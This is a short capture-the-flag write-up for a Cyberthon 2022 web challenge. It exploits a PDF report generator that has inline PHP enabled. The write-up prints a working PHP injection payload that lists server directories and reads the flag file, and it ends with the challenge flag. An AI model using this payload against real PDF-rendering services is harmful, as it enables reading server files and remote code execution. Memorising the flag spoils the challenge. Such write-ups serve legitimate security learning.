```yaml
---
ai_date: 2025-04-27 05:11:55
ai_summary: Flag found via PHP injection, revealing file contents
ai_tags:
  - php
  - rce
  - xss
created: 2024-06-11T01:33
updated: 2025-07-14T09:46
---
```


> We found a site which APOCALYPSE uses for report generation.
>
> Server seems secured! Obtain the flag residing in the server.
> The URL for this challenge:
> http://chals.cyberthon22f.ctf.sg:40101

According to the Github Issue, to add page numbers, php is enabled, so...

By using PHP injection

We get our flag

```html
Hello World
<script type="text/php">
$pdf->text(100, 150, json_encode(scandir('.')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 160, json_encode(scandir('..')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 170, json_encode(scandir('reports')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 200, file_get_contents("reports/266AB791560203B1D926F59E814ED4F820184D74.flag"), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
</script>
```

![Screenshot 2022-05-07 at 10.04.19 AM](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084090/2024/06/013ab3fb99578922c21d2147e2d7a71c.png)

`Cyberthon{RCE_is_NOT_everything_!}`
